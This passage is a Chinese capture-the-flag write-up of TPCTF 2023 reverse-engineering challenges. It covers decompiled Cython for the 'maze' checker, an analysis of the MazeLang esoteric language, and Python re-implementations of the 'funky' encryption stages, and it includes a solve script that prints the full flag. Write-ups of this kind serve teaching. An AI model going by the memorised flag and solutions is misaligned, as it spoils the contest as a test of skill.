    *ob_type = (PyObject *)((char *)*ob_type + 1);
    ++v14->ob_refcnt;
    v16 = Attr->ob_refcnt-- == 1;
    if ( v16 )
        _Py_Dealloc(Attr);
    __pyx_pyargnames[0] = ob_type;
    __pyx_pyargnames[1] = (PyObject **)ModuleGlobalName;
    v81 = _Pyx_PyObject_FastCallDict(v14, (PyObject **)__pyx_pyargnames, 2uLL, v12);
    v16 = *ob_type == (PyObject *)((char *)&dword_0 + 1);
    *ob_type = (PyObject *)((char *)*ob_type - 1);
    v15 = v81;
    if ( v16 )
        _Py_Dealloc(ob_type);
}
else
{
    v14 = Attr;
    __pyx_pyargnames[0] = 0LL;
    __pyx_pyargnames[1] = (PyObject **)ModuleGlobalName;
    v15 = _Pyx_PyObject_FastCallDict(Attr, (PyObject **)&__pyx_pyargnames[1], 1uLL, v12);
}
v16 = ModuleGlobalName->ob_refcnt-- == 1;
if ( v16 )
    _Py_Dealloc(ModuleGlobalName);
if ( !v15 )
{
    Attr = v14;
    v23 = 14991;
    goto LABEL_146;
}
v16 = v14->ob_refcnt-- == 1;
if ( v16 )
    _Py_Dealloc(v14);
v17 = (__int64 (__fastcall *)(PyObject *, PyObject *))v15->ob_type->tp_getattro;
if ( v17 )
    v19 = (PyObject *)v17(v15, _pyx_n_s_decode);
else
    v19 = (PyObject *)PyObject_GetAttr(v15, _pyx_n_s_decode);
v20 = v15->ob_refcnt - 1;
if ( !v19 )
{
    v26 = 0LL;
    v27 = 370;
    v23 = 14995;
    goto LABEL_228;
}
v15->ob_refcnt = v20;
if ( !v20 )
    _Py_Dealloc(v15);
if ( v19->ob_type == (_typeobject *)&PyMethod_Type && (v21 = (PyObject **)v19[1].ob_type) != 0LL )
{
    Attr = (PyObject *)v19[1].ob_refcnt;
    *v21 = (PyObject *)((char *)*v21 + 1);
    ++Attr->ob_refcnt;
    v16 = v19->ob_refcnt-- == 1;
    if ( v16 )
        _Py_Dealloc(v19);
    __pyx_pyargnames[0] = v21;
    __pyx_pyargnames[1] = 0LL;
    v22 = _Pyx_PyObject_FastCallDict(Attr, (PyObject **)__pyx_pyargnames, 1uLL, v18);
    v16 = *v21 == (PyObject *)((char *)&dword_0 + 1);
    *v21 = (PyObject *)((char *)*v21 - 1);
    v19 = v22;
    if ( v16 )
        _Py_Dealloc(v21);
}
else
{
    Attr = v19;
    __pyx_pyargnames[0] = 0LL;
    __pyx_pyargnames[1] = 0LL;
    v19 = _Pyx_PyObject_FastCallDict(v19, (PyObject **)&__pyx_pyargnames[1], 0LL, v18);
}
v23 = 15016;
if ( !v19 )
{
    LABEL_146:
    v16 = Attr->ob_refcnt-- == 1;
    if ( !v16 )
    {
        Attr = 0LL;
        _Pyx_AddTraceback("maze.c29sdmU", v23, 370, "maze.py");
        return Attr;
    }
    v19 = 0LL;
    v27 = 370;
    v26 = 0LL;
    goto LABEL_148;
}
v16 = Attr->ob_refcnt-- == 1;
if ( v16 )
    _Py_Dealloc(Attr);
v24 = (PyObject *)_pyx_dict_version.18789;
if ( _pyx_d[1].ob_type == (_typeobject *)_pyx_dict_version.18789 )
{
    v25 = _pyx_dict_cached_value.18790;
    if ( _pyx_dict_cached_value.18790 )
    {
        ++_pyx_dict_cached_value.18790->ob_refcnt;
        goto LABEL_42;
    }
    v26 = _Pyx_GetBuiltinName(_pyx_n_s_MazeLang);
}
else
{
    v26 = _Pyx__GetModuleGlobalName(_pyx_n_s_MazeLang, &_pyx_dict_version.18789, &_pyx_dict_cached_value.18790);
}
if ( !v26 )
{
    v66 = 371;
    v67 = 15030;
    goto LABEL_144;
}
v25 = v26;
LABEL_42:
if ( v25->ob_type == (_typeobject *)&PyMethod_Type && (v87 = (PyObject **)v25[1].ob_type) != 0LL )
{
    Attr = (PyObject *)v25[1].ob_refcnt;
    *v87 = (PyObject *)((char *)*v87 + 1);
    ++Attr->ob_refcnt;
    v16 = v25->ob_refcnt-- == 1;
    if ( v16 )
        _Py_Dealloc(v25);
    __pyx_pyargnames[0] = v87;
    __pyx_pyargnames[1] = (PyObject **)v19;
    v88 = _Pyx_PyObject_FastCallDict(Attr, (PyObject **)__pyx_pyargnames, 2uLL, v24);
    v16 = *v87 == (PyObject *)((char *)&dword_0 + 1);
    *v87 = (PyObject *)((char *)*v87 - 1);
    v26 = v88;
    if ( v16 )
        _Py_Dealloc(v87);
}
else
{
    Attr = v25;
    __pyx_pyargnames[0] = 0LL;
    __pyx_pyargnames[1] = (PyObject **)v19;
    v26 = _Pyx_PyObject_FastCallDict(v25, (PyObject **)&__pyx_pyargnames[1], 1uLL, v24);
}
v27 = 371;
v23 = 15050;
if ( !v26 )
    goto LABEL_238;
v16 = Attr->ob_refcnt-- == 1;
if ( v16 )
    _Py_Dealloc(Attr);
```

之后有一个获取`len(arg)`的过程，看WP才知道，小小的一段真不容易发现：

`s1a`通过交叉引用可以找到为`__pyx_args`，即函数的参数，因此应该是获取输入的长度是不是33。

> ```C
> .text:0000000000025360 ; PyObject *__fastcall _pyx_pw_4maze_3c29sdmU(PyObject *__pyx_self, PyObject *const *__pyx_args, Py_ssize_t __pyx_nargs, PyObject *__pyx_kwds)
> .text:0000000000025360 __pyx_pw_4maze_3c29sdmU proc near       ; DATA XREF: .data:__pyx_mdef_4maze_3c29sdmU↓o
> .text:0000000000025360
> .text:0000000000025360 s1= qword ptr -78h
> .text:0000000000025360 var_70= qword ptr -70h
> .text:0000000000025360 values= qword ptr -60h
> .text:0000000000025360 __pyx_pyargnames= qword ptr -58h
> .text:0000000000025360 var_40= qword ptr -40h
> .text:0000000000025360
> .text:0000000000025360 __pyx_self = rdi                        ; PyObject *
> .text:0000000000025360 __pyx_args = rsi                        ; PyObject *const *
> .text:0000000000025360 __pyx_nargs = rdx                       ; Py_ssize_t
> .text:0000000000025360 __pyx_kwds = rcx                        ; PyObject *
> ```
>
> - `__pyx_self` （存储在寄存器 `rdi` 中）：这是函数的第一个参数，通常是表示函数被调用的对象实例（对于类方法）或者是模块对象（对于模块级别的函数）。
> - `__pyx_args` （存储在寄存器 `rsi` 中）：这是一个指向参数数组的指针，参数的个数由 `__pyx_nargs` 指定。
> - `__pyx_nargs` （存储在寄存器 `rdx` 中）：这是一个整数，表示传递给函数的参数个数。
> - `__pyx_kwds` （存储在寄存器 `rcx` 中）：这可能是一个指向关键字参数的指针或一个表示关键字参数的 Python 字典。


开启循环`range(33)`，获取单个字符：


看报错应该是用了`ord`：


调用了`Mazelang.run_till_output`：


进行异或，`v45`是`ord(input[index])`，`v57`是`Mazelang.run_till_output`返回值：


获取`secret`，后面有`v63 = PyObject_GetItem(Attr, v97);`获取单个字符：


最后，进行比较：

`v15`是异或的结果，`v45`是`secret[index]`。

第三个参数 `3LL` 表示要进行的比较操作为等于比较，对应的宏是 `Py_EQ`。


因此，完整逻辑：

```Python
def solve(input):
    x = Mazelang(base64.b64decode(UJ9mxXxeoS).decode())
    if len(input) != 33:
        return 1
    init_secret()
    for i in range(33):
        if input[i] ^ MazeLang.run_till_output() != secret[i]:
            return 1
    return 0
```

### exp

```Python
import maze
import base64
a = base64.b64decode(maze.UJ9mxXxeoS).decode()
b = maze.TWF6ZUxhbmc(a)
maze.aW5pdF9zZWNyZXQ()
xor_num = []
for i in range(33):
    xor_num.append(b.cnVuX3RpbGxfb3V0cHV0())
xor_result = maze.c2VjcmV0

flag = []
for i in range(33):
    flag.append(xor_result[i] ^ xor_num[i])
print(flag)
print(''.join([chr(i) for i in flag]))

'''
biu@biu:~/Desktop/maze_extracted$ python3 test.py 
[84, 80, 67, 84, 70, 123, 121, 79, 117, 95, 64, 114, 101, 95, 109, 64, 115, 84, 51, 114, 95, 79, 70, 95, 109, 65, 90, 69, 108, 97, 78, 54, 125]
TPCTF{yOu_@re_m@sT3r_OF_mAZElaN6}
'''
```

### Mazelang

这里看一看`Mazelang`，感觉蛮好玩的。

[chrwoods/mazelang: Esoteric maze-based programming language (github.com)](https://github.com/chrwoods/mazelang)

[Maze - Esolang (esolangs.org)](https://esolangs.org/wiki/Maze)

地图根据base64可以得到：(上半部分是地图，下半部分是函数)

根据上面的网站以及自己尝试调试了解释器的源码后，大概知道了些：

1. `car`只要原来的方向还能走，就往原来的方向走
   1. 方向初始化为`['U', 'R', 'D', 'L']`
   2. 方向检测时，第一个检测的是原来的方向，最后一个检测是原来的方向的反方向
2. 每走一个格，执行该格对应的指令（可能是指令，可能是函数）
3. 一个`car`停在`**`上时，会发出`signal`，别的车可以根据这个`signal`执行条件判断函数操作

```shell
## ## ## ## ## ## ##
## ## ## ^^ ## ^^ ##
## ## ## .. ## IZ ## ## ## ##
## %R .. %D ## %D .. .. %L ##
## >> ## .. ## EA ** PP %U ##
## %U IA TA ## EB ** PP %U ##
## %U IB TB ## EC ** PP %U ##
## %U IC TC ## ED ** PP %U ##
## %U ID TD ## EE ** PP %U ##
## %U IE TE ## EF ** PP %U ##
## %U IF TF ## %R ** IZ %U ##
## %U IG %L ## ## ## ## ## ##
## ## ## ## ## ##

PP -> +=1
MM -> -=1
IZ -> =0
EA -> IF ==0 THEN %R ELSE %D
EB -> IF ==1 THEN %R ELSE %D
EC -> IF ==2 THEN %R ELSE %D
ED -> IF ==3 THEN %R ELSE %D
EE -> IF ==4 THEN %R ELSE %D
EF -> IF ==5 THEN %R ELSE %D
TA -> IF ** THEN %L ELSE %D
IA -> =72
TB -> IF ** THEN %L ELSE %D
IB -> =73
TC -> IF ** THEN %L ELSE %D
IC -> =84
TD -> IF ** THEN %L ELSE %D
ID -> =80
TE -> IF ** THEN %L ELSE %D
IE -> =67
TF -> IF ** THEN %L ELSE %D
IF -> =84
IG -> =70
LT -> IF ==6 THEN %D ELSE %L
```

由以上可以得到`maze`的路径：

只画了前三轮，红车的value每轮加一，进入不同行的`**`，导致触发`signal`的时机不同，从而改变蓝车的轨迹，输出不同的字符。

输出字符依次为：`HITPCTF`，不断循环。


可以直接使用解释器的脚本获取输出：


## funky

👉[⁡⁡⁣⁢‌‬⁣‍⁢‌⁢⁣⁡⁣⁡‍⁢⁤‬‌⁤‌⁡⁢‍⁢⁣⁤‬⁣‍‌⁡⁢‌⁡⁢2023 11.25 TPCTF reverse wp](https://ycznkvrmzo.feishu.cn/docx/UM7BdUTNHoz0x6xx5uXceJ8enLg)

👉[国际赛TPCTF 2023 Writeup --Polaris](https://mp.weixin.qq.com/s/fm8oSts-BOt-0Y8oL99XRA)

程序计算的逻辑将4字节数的每个bit转为1个4字节数。

`0x8000000`是0，`0x00000000`是1。

`main`的逻辑还是很好理解的，主要是三个加密函数。

```C
__int64 __fastcall main(int a1, char **a2, char **a3)
{
	...
    __printf_chk(1LL, "Input the flag: ", a3);
    __isoc99_scanf("%s", s);
    if ( strlen(s) != 39 )
        goto LABEL_3;
    if ( *s != 'TCPT' )
        goto LABEL_3;
    if ( word_557684292444 != '{F' )
        goto LABEL_3;
    if ( byte_557684292466 != '}' )
        goto LABEL_3;
    input_begin = &qword_557684292446;
    v4 = &input_char_byte;
    v5 = &v13;
    v6 = &qword_557684292446;
    do
    {
        v7 = *v6;
        v13 = 0LL;
        v14 = 0LL;
        v15 = 0LL;
        v16 = 0LL;
        parse_num(v5, v7);
        *(v8 - 32) = v13;
        *(v8 - 24) = v14;
        *(v8 - 16) = v15;
        *(v8 - 8) = v16;
    }
    while ( v9 != v6 );
    enc1();
    enc2();
    enc3();
    do
    {
        v10 = *v4;
        v11 = 2 * ((2 * ((2 * ((2 * ((2 * ((2 * ((2 * (v4[7] >= 0)) | (v4[6] >= 0))) | (v4[5] >= 0))) | (v4[4] >= 0))) | (v4[3] >= 0))) | (v4[2] >= 0))) | (v4[1] >= 0));
        v4 += 8;
        input_begin = (input_begin + 1);
        *(input_begin - 1) = (v10 >= 0) | v11;
    }
    while ( s != v4 );
    if ( qword_557684292446 ^ 0x69DA6110F30513BELL | qword_55768429244E ^ 0xB564B4894A8B7B39LL
        || qword_557684292456 ^ 0xD94585C18415AE32LL | qword_55768429245E ^ 0xF68893F67CB61DA9LL )
    {
        LABEL_3:
        exit_0();
    }
    puts("Correct flag!");
    return 0LL;
}
```

### enc1

`enc1`主要是获取每个输入的字节进行运算。

大部分的操作都是赋值操作，运算的操作集中在三个函数：

```C
void __fastcall and_operation(float *a1, float *rsi_, float *rdx_)
{
    *a1 = -(-*rsi_ - *rdx_);
    a1[1] = -(-rsi_[1] - *rdx_);
    a1[2] = -(-rsi_[2] - *rdx_);
    a1[3] = -(-rsi_[3] - *rdx_);
    a1[4] = -(-rsi_[4] - *rdx_);
    a1[5] = -(-rsi_[5] - *rdx_);
    a1[6] = -(-rsi_[6] - *rdx_);
    a1[7] = -(-rsi_[7] - *rdx_);
}
void __fastcall xor_operation(float *rdi_, float *rsi_, float *rdx_)
{
    *rdi_ = -(*rsi_ - *rdx_) - (*rdx_ - *rsi_);
    rdi_[1] = -(rsi_[1] - rdx_[1]) - (rdx_[1] - rsi_[1]);
    rdi_[2] = -(rsi_[2] - rdx_[2]) - (rdx_[2] - rsi_[2]);
    rdi_[3] = -(rsi_[3] - rdx_[3]) - (rdx_[3] - rsi_[3]);
    rdi_[4] = -(rsi_[4] - rdx_[4]) - (rdx_[4] - rsi_[4]);
    rdi_[5] = -(rsi_[5] - rdx_[5]) - (rdx_[5] - rsi_[5]);
    rdi_[6] = -(rsi_[6] - rdx_[6]) - (rdx_[6] - rsi_[6]);
    rdi_[7] = -(rsi_[7] - rdx_[7]) - (rdx_[7] - rsi_[7]);
}
void __fastcall left_move(_DWORD *a1, _DWORD *rsi_)
{
    *a1 = dword_557684292478;
    a1[1] = *rsi_;
    a1[2] = rsi_[1];
    a1[3] = rsi_[2];
    a1[4] = rsi_[3];
    a1[5] = rsi_[4];
    a1[6] = rsi_[5];
    a1[7] = rsi_[6];
}
```

使用条件断点获取函数的输入输出：

```shell
*****enc1 while1*****
get_input:102
	get_num:52
	enc1 while1*****
	op:52 & 0x0 = 0	0
	op:0 ^ 0 = 0	0
	op:99 & 0x0 = 0	0
	op:52 << 1 = 104	104
	op:104 ^ 0 = 104	104
	enc1 while1 end*
	enc1 while1*****
	op:104 & 0xff = 104	104
	op:0 ^ 104 = 104	104
	op:99 & 0x0 = 0	0
	op:104 << 1 = 208	208
	op:208 ^ 0 = 208	208
	enc1 while1 end*
	enc1 while1*****
	op:208 & 0xff = 208	208
	op:104 ^ 208 = 184	184
	op:99 & 0xff = 99	99
	op:208 << 1 = 160	160
	op:160 ^ 99 = 195	195
	enc1 while1 end*
	enc1 while1*****
	op:195 & 0x0 = 0	0
	op:184 ^ 0 = 184	184
	op:99 & 0xff = 99	99
	op:195 << 1 = 134	134
	op:134 ^ 99 = 229	229
	enc1 while1 end*
	enc1 while1*****
	op:229 & 0x0 = 0	0
	op:184 ^ 0 = 184	184
	op:99 & 0xff = 99	99
	op:229 << 1 = 202	202
	op:202 ^ 99 = 169	169
	enc1 while1 end*
	enc1 while1*****
	op:169 & 0xff = 169	169
	op:184 ^ 169 = 17	17
	op:99 & 0xff = 99	99
	op:169 << 1 = 82	82
	op:82 ^ 99 = 49	49
	enc1 while1 end*
	enc1 while1*****
	op:49 & 0xff = 49	49
	op:17 ^ 49 = 32	32
	op:99 & 0x0 = 0	0
	op:49 << 1 = 98	98
	op:98 ^ 0 = 98	98
	enc1 while1 end*
	enc1 while1*****
	op:98 & 0x0 = 0	0
	op:32 ^ 0 = 32	32
	op:99 & 0x0 = 0	0
	op:98 << 1 = 196	196
	op:196 ^ 0 = 196	196
	enc1 while1 end*
	op:32 ^ 227 = 195	195
*enc1 while1 end*****
*****enc1 while1*****
get_input:80
	get_num:52
	enc1 while1*****
	op:52 & 0x0 = 0	0
	op:0 ^ 0 = 0	0
	op:99 & 0x0 = 0	0
	op:52 << 1 = 104	104
	op:104 ^ 0 = 104	104
	enc1 while1 end*
	enc1 while1*****
	op:104 & 0x0 = 0	0
	op:0 ^ 0 = 0	0
	op:99 & 0x0 = 0	0
	op:104 << 1 = 208	208
	op:208 ^ 0 = 208	208
	enc1 while1 end*
	enc1 while1*****
	op:208 & 0x0 = 0	0
	op:0 ^ 0 = 0	0
	op:99 & 0xff = 99	99
	op:208 << 1 = 160	160
	op:160 ^ 99 = 195	195
	enc1 while1 end*
	enc1 while1*****
	op:195 & 0x0 = 0	0
	op:0 ^ 0 = 0	0
	op:99 & 0xff = 99	99
	op:195 << 1 = 134	134
	op:134 ^ 99 = 229	229
	enc1 while1 end*
	enc1 while1*****
	op:229 & 0xff = 229	229
	op:0 ^ 229 = 229	229
	op:99 & 0xff = 99	99
	op:229 << 1 = 202	202
	op:202 ^ 99 = 169	169
	enc1 while1 end*
	enc1 while1*****
	op:169 & 0x0 = 0	0
	op:229 ^ 0 = 229	229
	op:99 & 0xff = 99	99
	op:169 << 1 = 82	82
	op:82 ^ 99 = 49	49
	enc1 while1 end*
	enc1 while1*****
	op:49 & 0xff = 49	49
	op:229 ^ 49 = 212	212
	op:99 & 0x0 = 0	0
	op:49 << 1 = 98	98
	op:98 ^ 0 = 98	98
	enc1 while1 end*
	enc1 while1*****
	op:98 & 0x0 = 0	0
	op:212 ^ 0 = 212	212
	op:99 & 0x0 = 0	0
	op:98 << 1 = 196	196
	op:196 ^ 0 = 196	196
	enc1 while1 end*
	op:212 ^ 227 = 55	55
*enc1 while1 end*****
```

输入是`fP`，这里只放了前两个输入的加密。

这里每个输入的加密除了获取输入那里就不在其他地方出现了🤮

动调（把输入字符转化的`0x80000000`、`0x00000000`改为明显的其他数，不然好难调🤮）发现`enc1`是按bit处理的。

继续动调，结合上面函数输出输入的过程，获得逻辑：

```Python
def get_andbit(num):
    res = [0] * 8
    if (num & 1) == 1:
        res[0] = 0xff
    if (num & 2) == 2:
        res[1] = 0xff
    if (num & 4) == 4:
        res[2] = 0xff
    if (num & 8) == 8:
        res[3] = 0xff
    if (num & 16) == 16:
        res[4] = 0xff
    if (num & 32) == 32:
        res[5] = 0xff
    if (num & 64) == 64:
        res[6] = 0xff
    if (num & 128) == 128:
        res[7] = 0xff
    return res

def decrypt(data):
    c_and_bit = [0, 0, 0xff, 0xff, 0xff, 0xff, 0, 0]
    for i in range(len(data)):
        e = 52
        b = 0
        bit = get_andbit(data[i])
        for j in range(8):
            a = e & bit[j]
            b = b ^ a
            c = 99 & c_and_bit[j]
            e = (e << 1) & 0xff
            e = e ^ c
        data[i] = b ^ 227
    return data
```

### enc2

`enc2`中进行了四次循环加密，循环主体如下：

```C
do
{
    v2 = &input_char_byte;
    do
    {
        ------------asm------------
            // 加数：rsi = 上轮循环最后的加法结果
            mov     rsi, [rsp+0B8h+var_B0]
            // r11d 是循环的index， rax是获取input的index
            add     r11d, 1
            // 被加数：rdx = r8(从input[0]起始，每轮r8+=0x20，即input[index])
            mov     rdx, r8
            mov     rdi, rcx
            mov     [rsp+0B8h+var_68], 0
            mov     eax, r11d
            mov     qword ptr [rsp+0B8h+var_60], 0
            and     eax, 7
            mov     qword ptr [rsp+0B8h+var_60+8], 0
            shl     rax, 5
            mov     [rsp+0B8h+var_50], 0
            add     rax, r13
            call    add_operation
        ------------asm------------
        v90 = 0LL;
        v91 = 0uLL;
        v92 = 0LL;
        // input[8 * i + index] + input[8 * i + rax_ + 8]
        add_operation(v1, &v87, v2);
        v87 = v90;
        v3 = DWORD2(v91);
        *v88 = v91;
        *&v88[16] = v92;
        v4 = v92 >= 0;
        v91 = 0uLL;
        v5 = v92 >= 0;
        v92 = 0LL;
        v6 = (2 * ((2 * ((2 * ((2 * ((2 * ((2 * v4) | v5)) | (*&v88[12] >= 0))) | (v3 >= 0))) | (*&v88[4] >= 0))) | (*v88 >= 0))) | (v90 >= 0);
        v7 = v90;
        v90 = 0LL;
        // 取sbox里的值
        parse_num(v9, *(aes_sbox + ((2 * v6) | (v7 >= 0))));
        memset(&v89, 0, sizeof(v89));
        add_operation(v12, v11, v10);
        v13 = v89.m256_f32[0];
        v14 = v89.m256_f32[2];
        v15 = v89.m256_f32[3];
        v16 = v89.m256_f32[4];
        v17 = v89.m256_f32[5];
        v18 = v89.m256_f32[6];
        v19 = v89.m256_f32[1];
        *&v88[8] = *&v89.m256_f32[3];
        *v88 = *&v89.m256_f32[1];
        v87 = __PAIR64__(LODWORD(v89.m256_f32[0]), LODWORD(v89.m256_f32[7]));
        *v20 = v89.m256_f32[7];
        v20[1] = v13;
        v20[2] = v19;
        v20[3] = v14;
        v20[4] = v15;
        v20[5] = v16;
        v20[6] = v17;
        v20[7] = v18;
        ------------asm------------
            // 这里将加法结果的值左移一位，放入[rax]、[rsp+0B8h+var_A8]
            movss   xmm0, dword ptr [rsp+0B8h+var_88+1Ch]
            movss   xmm7, dword ptr [rsp+0B8h+var_88]
            movss   xmm5, dword ptr [rsp+0B8h+var_88+8]
            movss   xmm4, dword ptr [rsp+0B8h+var_88+0Ch]
            movss   xmm3, dword ptr [rsp+0B8h+var_88+10h]
            movss   xmm2, dword ptr [rsp+0B8h+var_88+14h]
            movss   dword ptr [rsp+0B8h+var_A8], xmm7
            movss   xmm1, dword ptr [rsp+0B8h+var_88+18h]
            movss   xmm6, dword ptr [rsp+0B8h+var_88+4]
            movss   dword ptr [rsp+0B8h+var_A8+4], xmm6
            movss   dword ptr [rsp+0B8h+var_A0], xmm5
            movss   dword ptr [rsp+0B8h+var_A0+4], xmm4
            movss   dword ptr [rsp+0B8h+var_A0+8], xmm3
            movss   dword ptr [rsp+0B8h+var_A0+0Ch], xmm2
            movss   dword ptr [rsp+0B8h+var_A0+10h], xmm1
            movss   dword ptr [rsp+0B8h+var_A0+14h], xmm0
            movss   dword ptr [rsp+0B8h+var_A0+10h], xmm0
            movss   dword ptr [rsp+0B8h+var_A0+14h], xmm1
            movss   dword ptr [rsp+0B8h+var_A0+0Ch], xmm0
            movss   dword ptr [rsp+0B8h+var_A0+10h], xmm2
            movss   dword ptr [rsp+0B8h+var_A0+8], xmm0
            movss   dword ptr [rsp+0B8h+var_A0+0Ch], xmm3
            movss   dword ptr [rsp+0B8h+var_A0+4], xmm0
            movss   dword ptr [rsp+0B8h+var_A0+8], xmm4
            movss   dword ptr [rsp+0B8h+var_A0], xmm0
            movss   dword ptr [rsp+0B8h+var_A0+4], xmm5
            movss   dword ptr [rsp+0B8h+var_A8+4], xmm0
            movss   dword ptr [rsp+0B8h+var_A0], xmm6
            movss   dword ptr [rsp+0B8h+var_A8], xmm0
            movss   dword ptr [rsp+0B8h+var_A8+4], xmm7
            movss   dword ptr [rax], xmm0
            movss   dword ptr [rax+4], xmm7
            movss   dword ptr [rax+8], xmm6
            movss   dword ptr [rax+0Ch], xmm5
            movss   dword ptr [rax+10h], xmm4
            movss   dword ptr [rax+14h], xmm3
            movss   dword ptr [rax+18h], xmm2
            movss   dword ptr [rax+1Ch], xmm1
    	------------asm------------
    }
    while ( v21 != 8 );
    --v0;
}
while ( v0 );
```

主要的`add_operation`函数，很难看懂：

```C
void __fastcall add_operation(float *a1, float *a2, float *a3)
{
   	...
    v3 = -(*a2 - *a3) - (*a3 - *a2);
    v4 = *&dword_557684292478 - v3;
    v5 = -(-v3 - *&dword_557684292478) - (-*a2 - *a3);
    *a1 = -((-(*a2 - *a3) - (*a3 - *a2)) - *&dword_557684292478) - v4;
    v6 = a2[1];
    v7 = a3[1];
    v8 = -(v6 - v7) - (v7 - v6);
    v9 = v5 - v8;
    v10 = -(-v8 - v5) - (-v6 - v7);
    a1[1] = -((-(v6 - v7) - (v7 - v6)) - v5) - v9;
    v11 = a2[2];
    v12 = a3[2];
    v13 = -(v11 - v12) - (v12 - v11);
    v14 = v10 - v13;
    v15 = -(-v13 - v10) - (-v11 - v12);
    a1[2] = -((-(v11 - v12) - (v12 - v11)) - v10) - v14;
    v16 = a2[3];
    v17 = a3[3];
    v18 = -(v16 - v17) - (v17 - v16);
    v19 = v15 - v18;
    v20 = -(-v18 - v15) - (-v16 - v17);
    a1[3] = -((-(v16 - v17) - (v17 - v16)) - v15) - v19;
    v21 = a2[4];
    v22 = a3[4];
    v23 = -(v21 - v22) - (v22 - v21);
    v24 = v20 - v23;
    v25 = -(-v23 - v20) - (-v21 - v22);
    a1[4] = -((-(v21 - v22) - (v22 - v21)) - v20) - v24;
    v26 = a2[5];
    v27 = a3[5];
    v28 = -(v26 - v27) - (v27 - v26);
    v29 = v25 - v28;
    v30 = -(-v28 - v25) - (-v26 - v27);
    a1[5] = -((-(v26 - v27) - (v27 - v26)) - v25) - v29;
    v31 = a2[6];
    v32 = a3[6];
    v33 = -(v31 - v32) - (v32 - v31);
    v34 = v30 - v33;
    v35 = -(-v33 - v30) - (-v31 - v32);
    a1[6] = -((-(v31 - v32) - (v32 - v31)) - v30) - v34;
    v36 = -(a2[7] - a3[7]) - (a3[7] - a2[7]);
    a1[7] = -(v36 - v35) - (v35 - v36);
}
```

参考了LaoGong的wp（真神✪ ω ✪），可以猜测这个函数是个模`0xFF`加法操作。

> ```Python
> expr_table('-(x - y) - (y - x)') # xor
> expr_table('-(-x - y)') # and
> expr_table('-(-(-(x - y) - (y - x)) - n) - (-x - y)') # carry
> expr_table('-((-(x - y) - (y - x)) - n) - (n - (-(x - y) - (y - x)))') # add
> 
> '''
> -(x - y) - (y - x):
>     (0, 0) -> 0
>     (0, 1) -> 1
>     (1, 0) -> 1
>     (1, 1) -> 0
> -(-x - y):
>     (0, 0) -> 0
>     (0, 1) -> 0
>     (1, 0) -> 0
>     (1, 1) -> 1
> -(-(-(x - y) - (y - x)) - n) - (-x - y):
>     (0, 0) -> 0
>     (0, 1) -> 0
>     (1, 0) -> 0
>     (1, 1) -> 1
> -((-(x - y) - (y - x)) - n) - (n - (-(x - y) - (y - x))):
>     (0, 0) -> 0
>     (0, 1) -> 1
>     (1, 0) -> 1
>     (1, 1) -> 0
> '''
> ```

经过调试，得到逻辑：

```Python
# rax = 0
# index = 0
# t = input[rax + 8]
# index += 1
# rax = (index & 7)
# input[rax] = (sbox[input[0] + t] + input[rax + 8]) << 1 # 空缺填补溢出
# t = input[rax]
# index += 1
# rax = (index & 7)
# input[rax] = (sbox[input[1] + t] + input[rax + 8]) << 1

def left_shift(x, n):
    return (x << n) & 0xff | (x >> (8 - n))

for i in range(4):
    for j in range(32):
        for z in range(8):
            rax_ = z & 7
            rax = (z + 1) & 7
            tmp = (sbox[input[8 * i + z] + input[8 * i + rax_ + 8]]) & 0xff
            input[8 * i + rax + 8] = left_shift((tmp + input[8 * i + rax + 8]) & 0xff)
```

### enc3

`enc3`就和`enc1`差不多了，只是他操作的是两个字节的数。

其他都是一样的，过。🆒

### 脚本

```Python
import struct
import string

def get_andbit(num):
    res = [0] * 8
    for i in range(8):
        if (num & (1 << i)) == (1 << i):
            res[i] = 0xff
    return res

def enc1(data):
    c_and_bit = [0, 0, 0xff, 0xff, 0xff, 0xff, 0, 0]
    for i in range(len(data)):
        e = 52
        b = 0
        bit = get_andbit(data[i])
        for j in range(8):
            a = e & bit[j]
            b = b ^ a
            c = 99 & c_and_bit[j]
            e = (e << 1) & 0xff
            e = e ^ c
        data[i] = b ^ 227
    return data

def get_andbit_word(num):
    res = [0] * 16
    for i in range(16):
        if (num & (1 << i)) == (1 << i):
            res[i] = 0xffff
    return res

def enc3(data):
    c_and_bit = [0, 0xffff, 0xffff, 0xffff, 0xffff, 0, 0, 0, 0, 0xffff, 0, 0, 0xffff, 0, 0xffff, 0]
    for i in range(len(data)):
        e = 0x6f08
        b = 0
        bit = get_andbit_word(data[i])
        for j in range(16):
            a = e & bit[j]
            b = b ^ a
            c = 0x7481 & c_and_bit[j]
            e = (e << 1) & 0xffff
            e = e ^ c
        data[i] = b ^ 0x5edd
    return data

sbox = [0x63, 0x7C, 0x77, 0x7B, 0xF2, 0x6B, 0x6F, 0xC5, 0x30, 0x01, 0x67, 0x2B, 0xFE, 0xD7, 0xAB, 0x76, 0xCA, 0x82, 0xC9, 0x7D, 0xFA, 0x59, 0x47, 0xF0, 0xAD, 0xD4, 0xA2, 0xAF, 0x9C, 0xA4, 0x72, 0xC0, 0xB7, 0xFD, 0x93, 0x26, 0x36, 0x3F, 0xF7, 0xCC, 0x34, 0xA5, 0xE5, 0xF1, 0x71, 0xD8, 0x31, 0x15, 0x04, 0xC7, 0x23, 0xC3, 0x18, 0x96, 0x05, 0x9A, 0x07, 0x12, 0x80, 0xE2, 0xEB, 0x27, 0xB2, 0x75, 0x09, 0x83, 0x2C, 0x1A, 0x1B, 0x6E, 0x5A, 0xA0, 0x52, 0x3B, 0xD6, 0xB3, 0x29, 0xE3, 0x2F, 0x84, 0x53, 0xD1, 0x00, 0xED, 0x20, 0xFC, 0xB1, 0x5B, 0x6A, 0xCB, 0xBE, 0x39, 0x4A, 0x4C, 0x58, 0xCF, 0xD0, 0xEF, 0xAA, 0xFB, 0x43, 0x4D, 0x33, 0x85, 0x45, 0xF9, 0x02, 0x7F, 0x50, 0x3C, 0x9F, 0xA8, 0x51, 0xA3, 0x40, 0x8F, 0x92, 0x9D, 0x38, 0xF5, 0xBC, 0xB6, 0xDA, 0x21, 0x10, 0xFF, 0xF3, 0xD2, 0xCD, 0x0C, 0x13, 0xEC, 0x5F, 0x97, 0x44, 0x17, 0xC4, 0xA7, 0x7E, 0x3D, 0x64, 0x5D, 0x19, 0x73, 0x60, 0x81, 0x4F, 0xDC, 0x22, 0x2A, 0x90, 0x88, 0x46, 0xEE, 0xB8, 0x14, 0xDE, 0x5E, 0x0B, 0xDB, 0xE0, 0x32, 0x3A, 0x0A, 0x49, 0x06, 0x24, 0x5C, 0xC2, 0xD3, 0xAC, 0x62, 0x91, 0x95, 0xE4, 0x79, 0xE7, 0xC8, 0x37, 0x6D, 0x8D, 0xD5, 0x4E, 0xA9, 0x6C, 0x56, 0xF4, 0xEA, 0x65, 0x7A, 